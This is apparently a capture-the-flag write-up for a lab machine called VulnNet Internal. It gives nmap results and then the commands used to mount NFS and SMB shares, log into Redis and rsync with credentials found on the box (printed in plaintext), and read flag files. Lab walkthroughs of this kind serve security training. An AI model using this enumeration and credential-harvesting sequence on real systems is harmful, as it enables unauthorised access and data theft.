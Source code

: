 ![image](https://user-images.githubusercontent.com/68326057/117233034-fd40ff00-ae3f-11eb-8173-04658ae718fd.png)

# NMAP

```bash
PORT      STATE    SERVICE     REASON      VERSION

22/tcp    open     ssh         syn-ack     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5e:27:8f:48:ae:2f:f8:89:bb:89:13:e3:9a:fd:63:40 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDagA3GVO7hKpJpO1Vr6+z3Y9xjoeihZFWXSrBG2MImbpPH6jk+1KyJwQpGmhMEGhGADM1LbmYf3goHku11Ttb0gbXaCt+mw1Ea+K0H00jA0ce2gBqev+PwZz0ysxCLUbYXCSv5Dd1XSa67ITSg7A6h+aRfkEVN2zrbM5xBQiQv6aBgyaAvEHqQ73nZbPdtwoIGkm7VL9DATomofcEykaXo3tmjF2vRTN614H0PpfZBteRpHoJI4uzjwXeGVOU/VZcl7EMBd/MRHdspvULJXiI476ID/ZoQLT2zQf5Q2vqI3ulMj5CB29ryxq58TVGSz/sFv1ZBPbfOl9OvuBM5BTBV
|   256 f4:fe:0b:e2:5c:88:b5:63:13:85:50:dd:d5:86:ab:bd (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNM0XfxK0hrF7d4C5DCyQGK3ml9U0y3Nhcvm6N9R+qv2iKW21CNEFjYf+ZEEi7lInOU9uP2A0HZG35kEVmuideE=
|   256 82:ea:48:85:f0:2a:23:7e:0e:a9:d9:14:0a:60:2f:ad (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJPRO3XCBfxEo0XhViW8m/V+IlTWehTvWOyMDOWNJj+i

111/tcp   open     rpcbind     syn-ack     2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      49358/udp6  mountd
|   100005  1,2,3      49863/tcp6  mountd
|   100005  1,2,3      55535/tcp   mountd
|   100005  1,2,3      58330/udp   mountd
|   100021  1,3,4      42699/tcp6  nlockmgr
|   100021  1,3,4      45099/tcp   nlockmgr
|   100021  1,3,4      45323/udp   nlockmgr
|   100021  1,3,4      56994/udp6  nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
139/tcp   open     netbios-ssn syn-ack     Samba smbd 3.X - 4.X (workgroup: WORKGROUP)

445/tcp   open     netbios-ssn syn-ack     Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)

873/tcp   open     rsync       syn-ack     (protocol version 31)

2049/tcp  open     nfs_acl     syn-ack     3 (RPC #100227)

6379/tcp  open     redis       Redis key-value store 

9090/tcp  filtered zeus-admin  no-response

57797/tcp open     mountd      syn-ack     1-3 (RPC #100005)

Service Info: Host: VULNNET-INTERNAL; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -6h09m58s, deviation: 1h09m16s, median: -5h29m59s
| nbstat: NetBIOS name: VULNNET-INTERNA, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   VULNNET-INTERNA<00>  Flags: <unique><active>
|   VULNNET-INTERNA<03>  Flags: <unique><active>
|   VULNNET-INTERNA<20>  Flags: <unique><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1e>        Flags: <group><active>
| Statistics:
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 46849/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 54877/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 5770/udp): CLEAN (Failed to receive data)
|   Check 4 (port 53803/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: vulnnet-internal
|   NetBIOS computer name: VULNNET-INTERNAL\x00
|   Domain name: \x00
|   FQDN: vulnnet-internal
|_  System time: 2021-05-06T04:27:49+02:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-05-06T02:27:49
|_  start_date: N/A
```

# port 111

```bash
showmount -e IP
```

![image](https://user-images.githubusercontent.com/68326057/117233586-08485f00-ae41-11eb-867e-6f3ae4c27f13.png)

```bash
sudo mount -o rw 10.10.236.231:/opt/conf /tmp/mountme
```

![image](https://user-images.githubusercontent.com/68326057/117234112-fc10d180-ae41-11eb-8b02-113f89963274.png)


```bash
In radis.conf

slave-serve-stale-data yes                                                                                                             

Master-Auth
requirepass "B65Hx562F@ggAZ@F"                                                                                                         
                                               
```

# SMB

```bash
smbclient -L \\\\IP
```

![image](https://user-images.githubusercontent.com/68326057/117235323-219eda80-ae44-11eb-8332-d6c524928251.png)

```bash
smbclient \\\\IP\shares
```

![image](https://user-images.githubusercontent.com/68326057/117235388-3ed3a900-ae44-11eb-98c1-000c1b86620b.png)

![image](https://user-images.githubusercontent.com/68326057/117235474-675ba300-ae44-11eb-96d5-8329631a7801.png)


![image](https://user-images.githubusercontent.com/68326057/117235467-6165c200-ae44-11eb-8551-01bb1db0c08c.png)

In service.txt there is a flag.

In data.txt

```bash
Purge regularly data that is not needed anymore
```

In business-req.txt
```bash
We just wanted to remind you that we_re waiting for the DOCUMENT you agreed to send us so we can complete the TRANSACTION we discussed.
If you have any questions, please text or phone us.
```

# REDIS

## Downloads it -->
```bash
sudo apt install redis-tools
```

```bash
redis-cli -h 10.10.236.231 --pass B65Hx562F@ggAZ@F
```

![image](https://user-images.githubusercontent.com/68326057/117236376-2d8b9c00-ae46-11eb-9640-2ed762ae34d4.png)


--> https://book.hacktricks.xyz/pentesting/6379-pentesting-redis


![image](https://user-images.githubusercontent.com/68326057/117236538-7fccbd00-ae46-11eb-9b65-8e9f8c6d2357.png)


![image](https://user-images.githubusercontent.com/68326057/117236693-d9cd8280-ae46-11eb-8147-6d2e2e09ae82.png)

# Trying to dump Database

![image](https://user-images.githubusercontent.com/68326057/117236771-084b5d80-ae47-11eb-8e1d-6ca8a869b1e3.png)

![image](https://user-images.githubusercontent.com/68326057/117236917-61b38c80-ae47-11eb-86c1-2fcf6c2aa795.png)


```bash
 get "internal flag"  -> get flag
```

![image](https://user-images.githubusercontent.com/68326057/117237713-20bc7780-ae49-11eb-9b1c-508a3f450302.png)



![image](https://user-images.githubusercontent.com/68326057/117245898-42bdf600-ae59-11eb-9bb4-7a3dffd6d6bb.png)


![image](https://user-images.githubusercontent.com/68326057/117245923-4fdae500-ae59-11eb-9930-0ca676467692.png)


```bash
Authorization for rsync://rsync-connect@127.0.0.1 with password Hcg3HP67@TW@Bc72v
```

# rsync

```bash
rsync -av rsync://rsync-connect@10.10.139.81/files/ . to copy all files
```

--> https://book.hacktricks.xyz/pentesting/873-pentesting-rsync


# user.txt

```bash
cd sys-internal
cat user.txt
ls -Ra (to recursively list)

```

![image](https://user-images.githubusercontent.com/68326057/117246522-6cc3e800-ae5a-11eb-887d-5ea486d115f9.png)

